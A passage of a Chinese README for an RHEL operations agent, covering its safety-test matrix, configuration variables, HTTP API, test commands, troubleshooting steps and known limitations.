### 7. 可重复的安全攻击矩阵

项目内置 104 个用例，持续验证：

- 危险命令是否被拦截
- 变更操作是否要求确认
- 参数缺失时是否停下来
- 网络操作是否带断连提醒
- 高危日志能否被识别
- 良性命令是否避免误报

## 配置

主配置文件：

```text
/etc/rhel-ops-agent/agent.env
```

| 变量 | 默认值 | 说明 |
|---|---|---|
| `RHEL_OPS_HOST` | `127.0.0.1` | Web 监听地址 |
| `RHEL_OPS_PORT` | `8765` | Web 端口 |
| `RHEL_OPS_DATA_DIR` | `/var/lib/rhel-ops-agent` | 数据库与状态目录 |
| `RHEL_OPS_ADMIN_PASSWORD` | 无 | 首次初始化密码，生产环境建议不写入文件 |
| `RHEL_OPS_AUDIT_POLL` | `20` | 日志采集间隔，单位秒 |
| `RHEL_OPS_SCAN_TIMEOUT` | `20` | 单项巡检命令超时 |
| `RHEL_OPS_PROPOSAL_TTL` | `900` | 操作计划有效期，单位秒 |
| `RHEL_OPS_HISTORY_LINES` | `3000` | 保留的日志读取提示 |
| `RHEL_OPS_NO_AUTH` | `0` | 仅用于本机开发，禁止远程监听 |
| `RHEL_OPS_LLM_ENABLED` | `0` | 是否启用 LLM 语义理解 |
| `RHEL_OPS_LLM_MODE` | `llm_first` | `off`、`llm_first`、`hybrid` 或 `always` |
| `RHEL_OPS_LLM_PROVIDER` | `ollama` | `ollama` 或 OpenAI 兼容提供方 |
| `RHEL_OPS_LLM_BASE_URL` | `http://127.0.0.1:11434` | Ollama 地址或 OpenAI 兼容 API 根地址 |
| `RHEL_OPS_LLM_MODEL` | `qwen2.5:7b-instruct` | 模型名称 |
| `RHEL_OPS_LLM_API_KEY` | 无 | 远程 OpenAI 兼容服务的 API 密钥 |
| `RHEL_OPS_LLM_TIMEOUT` | `20` | 模型请求超时 |
| `RHEL_OPS_LLM_CONFIDENCE` | `0.55` | 低于阈值的模型结果会被拒绝 |
| `RHEL_OPS_LLM_STRUCTURED_OUTPUT` | `1` | 使用 JSON Schema / 结构化输出 |
| `RHEL_OPS_LLM_MAX_ACTIONS` | `6` | 单次模型解释允许的最大动作数 |

重要文件：

| 路径 | 内容 |
|---|---|
| `/var/lib/rhel-ops-agent/agent.db` | SQLite 数据库 |
| `/var/lib/rhel-ops-agent/admin.passwd` | PBKDF2 管理员密码 |
| `/var/lib/rhel-ops-agent/session.secret` | 会话签名密钥 |
| `/var/lib/rhel-ops-agent/initial-password.txt` | 首次密码，登录后建议删除 |
| `/var/lib/rhel-ops-agent/audit-state.json` | 日志文件读取偏移 |
| `/etc/audit/rules.d/rhel-ops-agent.rules` | 定向审计规则 |

登录后建议删除初始密码文件：

```bash
sudo rm /var/lib/rhel-ops-agent/initial-password.txt
```

## HTTP API

所有业务 API 都要求登录 Cookie。

| 方法 | 路径 | 说明 |
|---|---|---|
| `GET` | `/api/health` | 健康检查 |
| `GET` | `/api/auth/status` | 登录状态 |
| `POST` | `/api/auth/login` | 登录 |
| `POST` | `/api/auth/logout` | 退出 |
| `GET` | `/api/overview` | 总览 |
| `GET` | `/api/rules` | 规则库 |
| `GET` | `/api/llm/status` | LLM 配置与运行状态 |
| `POST` | `/api/plan` | 生成操作计划 |
| `POST` | `/api/execute` | 确认并执行计划 |
| `POST` | `/api/scan` | 启动异步巡检 |
| `GET` | `/api/scans/<id>` | 查询巡检结果 |
| `GET` | `/api/findings` | 最近巡检结果 |
| `GET` | `/api/audit` | 高危命令列表 |
| `POST` | `/api/audit/refresh` | 立即采集 |
| `POST` | `/api/audit/<id>/ack` | 确认事件 |
| `POST` | `/api/lab/simulate` | 仅本机写入模拟审计事件 |

健康检查：

```bash
curl http://127.0.0.1:8765/api/health
```

## 测试与验证

### 单元测试

```bash
python3 -m unittest discover -v
```

覆盖：

- 规则匹配
- 复合请求
- 危险路径阻断
- 参数缺失
- 网络和重启提示
- 确认语执行
- PBKDF2 和会话签名
- 30 个巡检实现
- 104 个攻击矩阵

### 语法检查

```bash
python3 -m compileall -q agent app.py rhel-agent tests
node --check web/app.js
```

### API 冒烟测试

先启动服务，然后执行：

```bash
python3 scripts/api_smoke_test.py --base-url http://127.0.0.1:8765
```

如果启用了登录：

```bash
python3 scripts/api_smoke_test.py \
  --base-url http://127.0.0.1:8765 \
  --password '安装时生成的密码'
```

测试内容包括：

- 总览和规则数量
- 中文语言变更计划
- 确认语执行与重启提示
- 异步巡检轮询
- 根目录删除拦截
- 模拟审计事件写入

Windows 开发环境还可以用无头 Edge 验证页面：

```powershell
$env:RHEL_AGENT_URL = "http://127.0.0.1:8880"
node scripts/ui_smoke_test.js
```

### 演示模式

```bash
python3 app.py web --demo
```

演示模式不会执行真实系统命令。

## 故障排查

### `rhel-agent: command not found`

说明当前只下载了源码，还没有执行安装。请在仓库根目录运行：

```bash
sudo bash install.sh
```

不要先 `cd rhel-ops-agent` 再重复进入同名目录。安装完成后：

```bash
sudo rhel-agent rules
sudo rhel-agent llm-test
```

如果之前已经运行过 `setup-glm-api.sh`，`/etc/rhel-ops-agent/agent.env` 会保留，不需要再次输入 API Key。

### Web 打不开

```bash
sudo systemctl status rhel-ops-agent
sudo journalctl -u rhel-ops-agent -n 100 --no-pager
ss -lntp | grep 8765
```

默认只监听 `127.0.0.1`，远程电脑需要使用 SSH 隧道。

### auditd 没有记录

```bash
sudo systemctl status auditd
sudo auditctl -l | grep rhel_ops_agent
sudo augenrules --load
sudo tail -n 50 /var/log/audit/audit.log
```

### 命令历史有延迟

历史文件通常只会在 shell 退出或按配置刷新时写入。需要实时性时优先使用 auditd。

### 时区或语言修改无效

```bash
timedatectl status
localectl status
locale -a | grep -E 'zh_CN|en_US'
```

如果 `zh_CN.UTF-8` 未安装，需要先安装对应语言包。

### 修改 IP 后失联

执行前务必确认：

- 有控制台、IPMI 或云厂商 VNC
- 新网关可达
- 新地址未被占用
- 防火墙允许 SSH
- 当前登录不是唯一入口

Agent 会在计划中显示断连警告，但不能替用户保证新网络配置一定可达。

### 端口被占用

修改 `/etc/rhel-ops-agent/agent.env`：

```ini
RHEL_OPS_PORT=8877
```

然后重启服务。

## 已知边界

- 当前自然语言理解是规则驱动，不是通用大模型。未覆盖的表达会返回“没有找到受支持的操作”。
- 漏洞巡检是 RHEL 基线检查，不是完整 CVE 扫描器。可用安全更新依赖 `dnf` 仓库元数据。
- 另一个终端中的危险命令是“执行后检测”，不是强制阻断。
- auditd 规则只记录已配置的高风险二进制，不会记录所有命令。
- `sudo` 日志格式和 auditd 版本在 RHEL 小版本间可能略有差异。
- 内建 Web 服务只提供 HTTP。远程部署应使用 SSH 隧道、VPN 或带 TLS 的反向代理。
- 服务以 root 运行以执行系统管理任务。Web 端必须保持本机绑定或受控网络访问。
- 网络显示的输出依赖 `nmcli`、`iproute`、`firewalld` 等 RHEL 常用工具是否存在。
- 删除操作没有内置回收站或自动备份。

## 开发

从源码直接启动演示：

```bash
python3 app.py web --demo
```

运行攻击矩阵：

```bash
python3 rhel-agent --demo attack-demo
```

指定开发数据目录：

```bash
python3 app.py web --demo --data-dir ./data-dev --port 8877
```

前端零构建，直接修改：

```text
web/index.html
web/styles.css
web/app.js
```

修改规则后重启服务，或重新执行攻击矩阵验证。
